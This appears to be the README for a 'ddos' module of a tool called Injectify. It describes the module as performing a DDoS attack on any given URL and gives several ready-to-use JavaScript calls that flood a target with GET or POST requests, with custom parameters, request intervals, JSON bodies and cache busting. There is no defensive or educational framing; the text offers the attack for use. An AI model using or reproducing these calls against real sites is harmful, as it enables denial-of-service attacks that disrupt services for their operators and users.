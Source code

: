 ## `ddos` module

Performs a DDOS attack on any given URL.
- Can perform GET & POST requests with custom parameters
- Custom `Content-type` headers (limited to only the current domain)
- Cache busting

## Usage

```js
/**
 * Basic DDoS attack
 */
injectify.module('ddos', 'http://example.com/')
// true


/**
 * Custom interval in milliseconds and without the cache buster
 */
injectify.module('ddos', {
    url: 'http://example.com/',
    interval: 10,
    random: false
})
// true


/**
 * Custom set of URL query parameters
 */
injectify.module('ddos', {
    method: 'GET',
    url: 'http://example.com/',
    params: 'param1=true&param2=false'
})
// true


/**
 * Different methods of passing the query parameters
 */
injectify.module('ddos', {
    method: 'POST',
    url: 'http://example.com/?param1=true&param2=true',
    params: {
        param3: true,
        param4: false,
    }
})
// true


/**
 * Send POST requests with a JSON body
 */
injectify.module('ddos', {
    method: 'POST',
    url: 'http://example.com/',
    type: 'application/json',
    body: {
        object: {
            value1: true,
            value2: false
        }
    },
})
// true
```